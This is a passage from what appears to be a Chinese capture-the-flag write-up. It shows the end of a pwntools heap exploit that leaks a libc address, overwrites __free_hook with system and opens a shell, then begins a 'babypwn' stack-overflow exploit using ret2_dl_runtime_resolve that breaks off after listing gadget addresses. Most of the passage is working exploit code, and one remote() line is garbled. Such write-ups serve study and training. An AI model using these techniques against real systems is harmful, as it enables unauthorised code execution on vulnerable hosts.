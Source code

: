 ```
	create(0x100,"a"*0x20)#3
	delete(1)
	create(0x20,"a"*0x20)#1
	create(0xd0,"a"*8)#4
	show()
	p.recvuntil("4 : aaaaaaaa")
	data = p.recvn(6) + "\x00\x00"
	libc_base  = u64(data) - 0x3c4b78
	malloc_hook = libc_base + 0x3c4b10	
	one_shot = libc_base + 0xf02a4
	free_hook = libc_base + 0x3c67a8
	system = libc_base + 0x45390
	print '[*]libc_base : ',hex(libc_base)	
	print '[*]malloc_hook : ',hex(malloc_hook)
	print '[*]free_hook : ',hex(free_hook)
	print '[*]one_shot : ',hex(one_shot)
	print '[*]system : ',hex(system)
	index = (heap - chunk_list + 8)/0x10 + 15
	print '[*]index : ',hex(index)
	change(2,"a"*8+p64(heap+0x10))
	create(0x71,"h"*0x71)#5
	
	create(0x60,"e"*0x60) #6
	create(0x60,"b"*0x60) #7
	#gdb.attach(p)
	delete(6)
	delete(7)
	delete(index)
	create(0x60,p64(0x6020a8)) #6
	create(0x60,"c"*0x60) #7
	create(0x60,"/bin/sh\x00") #8
	
	payload = p64(free_hook) + p64(0x20) + p64(heap+0x10)
	payload = payload.ljust(0x60,"\x00")
	create(0x60, payload) #9
	show()
	change(5,p64(system))
	delete(6)
	p.recv()
	#gdb.attach(p)
	p.interactive()
exp()
```

最后成功getshell

### babypwn

直接read读入0x100直接造成栈溢出，但是这题的难点在于没有泄露函数，不能直接return to libc，所以这里利用ret2_dl_runtime_resolve，之前做过0ctf2018的babystack跟这个类似，先是尝试了roputils库实现，后来发现有点问题总是调不对，后来直接手工干了一波。操作如下：

```
# -*- coding:utf-8 -*-
from pwn import *
context.log_level = 'debug'
#p = process('./pwn')
p = remote(ipm"port3)
elf = ELF('./pwn')

read_plt = elf.plt['read']
alarm_plt = elf.plt['alarm']
pop_ebp_ret = 0x080485db
ppp_ret = 0x080485d9
pp_ebp_ret = 0x080485da
```